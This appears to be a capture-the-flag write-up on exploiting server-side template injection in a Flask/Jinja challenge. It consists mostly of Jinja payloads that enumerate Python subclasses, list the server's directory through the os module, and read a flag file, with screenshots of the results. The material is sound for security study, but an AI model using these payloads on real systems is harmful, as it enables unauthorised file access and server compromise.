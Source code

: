 # Web_python_template_injection

![Screenshot from 2021-07-25 18-08-42](https://user-images.githubusercontent.com/87865134/126896955-fc1c1441-180b-4daa-9181-fa172b318e12.png)

- Template: Flask/Jinja

## 1. Check Template Injection

![Screenshot from 2021-07-25 18-11-00](https://user-images.githubusercontent.com/87865134/126897023-cb8a1879-4247-4b7f-9448-785877ed0b59.png)

## 2. Injection code:
  - **List all class in python template:**  
    ```python
    {{().__class__.__bases__[0].__subclasses__()}}
    ```  
  ![Screenshot from 2021-07-25 18-15-21](https://user-images.githubusercontent.com/87865134/126897148-4edb3571-1544-4d6d-afa8-bc492fa7a88e.png)

  - **List file in current directory:**  
    ```python
    {{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
    ```  
   ![Screenshot from 2021-07-25 18-20-06](https://user-images.githubusercontent.com/87865134/126897262-84880017-207c-4c76-acae-f940d6d1580b.png)

  - **Read content of file fl4g:**  
    ```python
    {{().__class__.__bases__[0].__subclasses__()[40]('fl4g').read()}}
    ```   
   ![Screenshot from 2021-07-25 18-23-19](https://user-images.githubusercontent.com/87865134/126897330-df52606d-61db-4505-9307-fb81bed61ab9.png)

 ## - Decription:
  - > category: Server-side template injection
 
 ## - Reference:
  - [Python Built-in Types](https://docs.python.org/3/library/stdtypes.html#class.__bases__)
  - [Python magic method - HackTrick](https://book.hacktricks.xyz/misc/basic-python/magic-methods)
